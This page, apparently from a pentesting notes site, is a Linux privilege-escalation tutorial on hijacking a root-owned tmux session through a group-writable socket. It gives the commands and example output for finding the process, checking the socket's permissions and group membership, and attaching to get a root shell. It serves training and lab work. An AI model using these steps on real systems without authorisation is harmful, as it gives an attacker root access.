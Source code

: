 ```yaml
---
icon: linux
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Hijacking Tmux Sessions

Terminal multiplexers such as [tmux](https://en.wikipedia.org/wiki/Tmux) can be used to allow multiple terminal sessions to be accessed within a single console session. When not working in a **tmux** window, we can detach from the session, still leaving it active (i.e., running an **nmap** scan).

For many reasons, a user may leave a **tmux** process running as a privileged user, such as root set up with weak permissions, and can be hijacked. This may be done with the following commands to create a new shared session and modify the ownership.

{% code title="Command" %}
```bash
tmux -S /shareds new -s debugsess
```
{% endcode %}

{% code title="Command" %}
```bash
chown root:devs /shareds
```
{% endcode %}

If we can compromise a user in the `devs` group, we can attach to this session and gain root access.

Check for any running `tmux` processes.

{% code title="Command" %}
```bash
ps aux | grep tmux
```
{% endcode %}

{% code title="Example Output" %}
```bash
root      4806  0.0  0.1  29416  3204 ?        Ss   06:27   0:00 tmux -S /shareds new -s debugsess
```
{% endcode %}

Confirm permissions.

{% code title="Target Machine" %}
```shell-session
user@target:~$ ls -la /shareds 

srw-rw---- 1 root devs 0 Sep  1 06:27 /shareds
```
{% endcode %}

Review our group membership.

{% code title="Target Machine" %}
```shell-session
user@target:~$ id

uid=1000(htb) gid=1000(htb) groups=1000(htb),1011(devs)
```
{% endcode %}

Finally, attach to the `tmux` session and confirm root privileges.

{% code title="Command" %}
```bash
tmux -S /shareds
```
{% endcode %}

{% code title="Example" %}
```shell-session
user@target:~$ tmux -S /shareds

id

uid=0(root) gid=0(root) groups=0(root)
```
{% endcode %}

